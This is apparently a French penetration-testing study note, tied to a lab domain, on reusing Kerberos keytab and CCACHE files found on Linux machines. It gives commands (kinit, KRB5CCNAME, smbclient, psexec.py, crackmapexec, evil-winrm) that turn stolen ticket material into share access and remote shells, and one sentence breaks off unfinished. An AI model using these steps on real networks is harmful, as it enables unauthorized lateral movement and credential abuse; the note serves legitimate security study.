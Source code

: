 ```yaml
---
public: true # set to true to make the article publishable
---
```

On peut utiliser la commande `realm` pour avoir des informations sur l'authentification kerberos configurée sur une machine linux.

Un fichier keytab contient les clés liées à un compte utlisateur pour réaliser des authentification kerberos (demande de TGT)

Un fichier CCACHE est contient un ou plusieurs tickets kerberos.

Lorsqu'on trouve un fichier keytab et que l'on connait le nom d'utilisateur qui lui est associé (en utilisant par exemple KeyTab Extract,

## Trouver des fichiers keytab et CCACHE

Par défaut les fichiers `CCACHE` sont enregistrés dans `/tmp` mais seul l'utilisateur root peut y accéder


## Utilisation d'un Keytab
on peut utiliser le fichier Keytab à l'aide de `kinit` : 

```
# création d'un TGT à partir d'un keytab
kinit user@realm -k -t /chemin/vers/fichier.keytab # le ticket généré est stocké dans le CCACHE courant ou un CCACHE est créé (dans /tmp)
                                        # la variable KRB5CCNAME prend la valeur du fichier CCACHE si cela n'était pas déja le cas
# vérification des tickets disponibles
klist

# utilisation par exemple de smbclient
smbclient -k -no-pass //SRV/Share -c 'ls'
```


## Utilisation d'un CCACHE
Si on arrive à lire un CCACHE, on peut l'utiliser :

```
export KRB5CCNAME=/Path/to/Fichier.CCACHE

# Exemples d'utilisation
smbclient -k -no-pass //SRV/Share -c 'ls'

psexec.py  FQDN.domain.local -k -no-pass

## ATTENTION : cme n'utilise $KRB5CCNAME que si on utilise --use-kcache
crackmapexec smb dc01.inlanefreight.htb -k --use-kcache --shares


# Evil-WinRM (nécessite d'ajouter une entrée vers le KDC (voir -h))
proxychains evil-winrm -i FQDN.domain.local -r 'domain.local'
```


